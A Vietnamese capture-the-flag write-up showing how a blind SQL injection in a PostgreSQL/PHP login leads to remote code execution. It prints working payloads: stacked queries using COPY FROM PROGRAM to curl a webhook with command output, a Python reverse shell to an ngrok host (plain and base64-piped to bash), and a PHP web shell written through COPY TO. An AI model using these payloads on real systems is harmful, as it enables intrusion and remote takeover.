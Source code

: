 ```yaml
---
title: "[WRITEUP] Baby SQL Injection to RCE - COOKIE ARENA"
categories:
- CTF Writeup
- Cookie Arena
tags:
- SQLi
date: '2024-07-10 14:30:00'
---
```


## Intro
Link Challenge: [here](https://battle.cookiearena.org/challenges/web/baby-sql-injection-to-rce){:target="\_blank"}

Mô tả: 
```
This is because traditional SQL injection techniques. Could you execute command?

The challenge is running in PostgreSQL and PHP.

Flag File: /flagXXXX.txt
Flag Format: CHH{XXX}
```
## Exploit
Mới đầu vào xuất hiện 1 trang login:

![Login Page](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/1.png)

Source code:
```php
<?php
  include_once('./ignore/design/design.php');
  $design = Design(__FILE__, 'Basic Web');

  include('config.php');
  $message = "";
  
  if ($_SERVER["REQUEST_METHOD"] == "POST") {
      $username = trim($_POST['username']);
      $password = trim($_POST['password']);
  
      // Truy vấn kiểm tra tên người dùng và mật khẩu
      $sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
      $result = pg_query($conn, $sql) or die(pg_last_error());

      if (pg_num_rows($result) > 0) {
        $message = "Welcome, $username!";
      } else {
        $message = "Invalid username or password!";
      }
  }
?>
<html>
  <head>
    <title>Basic Login</title>
  </head>
  <body>
    <?php if(strlen($message) > 0) { echo $message; } else { ?>
    <div>
        <h2>Login</h2>
        <form action="/index.php" method="post">
          
            <div class="form-group">
                <label for="username">Username:</label>
                <input type="text" class="form-control" id="username" name="username">
            </div>
            <div class="form-group">
                <label for="pwd">Password:</label>
                <input type="password" class="form-control" id="pwd" name="password">
            </div>
            <button type="submit" class="btn btn-primary">Login</button>
        </form>
    </div>
    <?php } ?>

    <div>
      <?php echo $design; ?>  
    </div>    
  </body>
</html>
```

Trước hết, đọc source code ta thấy được câu truy vấn `$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";`. Trigger sqli 1 mệnh đề đúng => nảy sang 1 trang welcome, Ngược lại trả về "Incorrect Username or Password" ==> Blind SQLi.
![Welcome](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/2.png)

Như cái tiêu đề và mô tả, chúng ta phải khai thác SQL injection to RCE vì flag nằm trong file hệ thống chứ không nằm trong db. 2 ý tưởng nảy trong đầu của tui:
1. Liệu có câu lệnh sql của PostgreSQL nào giúp ta thực thi os command hay không?
2. Liệu có thư mục nào mà ta có quyền ghi file? Từ đó up webshell bằng SQL?

Nhưng, trong câu truy vấn gốc với mệnh đề select thì ta không làm được gì nhiều. Vậy liệu còn cách nào khác giúp ta có thể chạy nguyên vẹn 1 sql command để có thể làm được nhiều thứ hơn? Có một khái niệm cho phép ta làm điều này [Stack Queries](https://cookiearena.org/penetration-testing/stacked-query-trong-sql-injection/){:target="\_blank"}.

![Stack Queries](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/3.png)

Vậy là confirm rằng psql có support Stacked Queries.

### Vector 1: Execute OS command via SQL
Sau một hồi research docs của postgresql, tui tìm được [cái này](https://www.postgresql.org/docs/current/sql-copy.html#:~:text=the%20path%20name.-,PROGRAM,string%2C%20or%20at%20least%20avoid%20including%20any%20user%20input%20in%20it){:target="\_blank"}.
 
 `COPY FROM PROGRAM` giúp ta thực hiện vector 1 mà tui đưa ra. 

- Bắt đầu với việc tạo 1 table.
```text
';CREATE TABLE shell(output text);-- -
```

![Create Table](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/4.png)

- Sử dụng PROGRAM để thiết lập command. Test payload:
```text
'; COPY shell FROM PROGRAM 'curl https://webhook.site/de60c29f-ebc7-4f64-8851-09f08950387e/res=`id`';-- -
```

![Test exec command](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/5.png)

Sure là payload của ta hoạt động. RCE thoaii

![RCE](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/6.png)

Giải thích một chút payload:
- Đầu tiên, biết server đang chạy python3, nên tui dùng payload reverse shell này:
```
export RHOST="0.tcp.ap.ngrok.io";export RPORT=19890;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

- Tiếp đến, để vận chuyển payload 1 cách mượt mà, tui base64 lại và dùng pipeline để xử lý payload. Full payload nè:
```
'; COPY shell FROM PROGRAM 'echo "ZXhwb3J0IFJIT1NUPSIwLnRjcC5hcC5uZ3Jvay5pbyI7ZXhwb3J0IFJQT1JUPTE5ODkwO3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oInNoIikn" | base64 -d | /bin/bash';-- -
```

### Vector 2: Upload shell via SQL

- Thứ nhất, điều kiện tiên quyết là upload ở đâu đó trong document-root để có thể thực thi file php? 
- Và thư mục đó có quyền ghi cho user postgres hay không?

Thực hiện dirsearch endpoint của website thì phát hiện ra 1 số thứ hay ho:

![dirsearch](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/7.png)

Trang phpinfo cho ta biết được một số thông tin quan trọng như document_root. 

![phpinfo](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/8.png)

Thư mục upload

![upload](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/9.png)


Thư mục upload/ và document_root là 2 keys chính cho giả thiết 2 này. 

Việc còn lại là craft 1 payload để ghi file, cụ thể hơn là file php (để chứng minh thư mục file php có được thực thi hay không).

```
'; CREATE TEMPORARY TABLE temp_results(a VARCHAR(255)); INSERT INTO temp_results (a) VALUES ('<?php phpinfo(); ?>'); COPY temp_results TO '/www/upload/1.php' WITH (FORMAT CSV);-- -
```

![test payload](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/10.png)

Giải thích payload:
- Tạo 1 bảng tạm có 1 column để chèn payload.
- `COPY temp_results TO '/www/upload/1.php' WITH (FORMAT CSV);` câu lệnh giúp xuất toàn bộ content của table `temp_results` chứa payload vào 1 file trong hệ thống với absolute path (nếu cố tình chèn relative path sẽ gây ra lỗi) (đó cũng chứng minh rằng document_root là thông tin cần thiết cho vector này).

Thay payload phpinfo() bằng `<?php system($_GET[cmd]); ?>');` => RCE

![RCE](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/11.png)